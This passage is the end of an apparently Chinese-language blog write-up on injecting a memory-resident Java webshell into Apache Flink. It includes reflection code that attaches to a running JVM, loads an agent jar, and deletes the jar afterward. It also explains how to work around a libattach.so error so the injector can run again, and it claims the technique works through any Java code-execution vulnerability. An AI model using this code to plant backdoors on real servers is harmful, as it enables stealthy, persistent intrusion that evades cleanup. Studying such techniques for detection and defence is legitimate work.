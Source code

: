 ```java
                        Method attachM = VirtualMachineClass.getDeclaredMethod("attach", VirtualMachineDescriptorClass);
                        vm = attachM.invoke(null, vmd);
                        Method loadAgentM = VirtualMachineClass.getDeclaredMethod("loadAgent", String.class, String.class);
                        loadAgentM.invoke(vm, jarPath, vmName);
                        Method detachM = VirtualMachineClass.getDeclaredMethod("detach", null);
                        detachM.invoke(vm, null);
                        System.out.println("success");
                    }
                }

            }
            loader.close();

            new File(jarPath).delete();

        } catch (Exception e) {
            e.printStackTrace();
        }


    }
```

## 7. libattach.so被占用

起初笔者以为flink的JAR执行是通过`java -jar`进行的，后面发现其实就是invoke了main方法。这个情况下，导致了这么一个问题：starter成功执行attach之后，我们通过`/UNINSTALL`功能卸载内存马，再一次去执行starter时却发现starter执行失败。原因为，`VirtualMachine`在实例化时有个静态代码块加载了`libattach.so`，而第二次执行starter会导致在加载该so文件时报`java.lang.UnsatisfiedLinkError: Can't load library`异常。

为了避免该问题，我们可以一开始先将starter释放到临时目录下，通过调用系统命令`jar -jar`来运行starter。

## 8. 结语

在路由注册方式行不通的情况下，使用attach进行内存马的写入，不失为一个不错的方法，理论上在任何JAVA代码执行漏洞中，我们都可以使用该方式去写内存马，但关于内存马的业务功能这块，我们可能需要费一番功夫。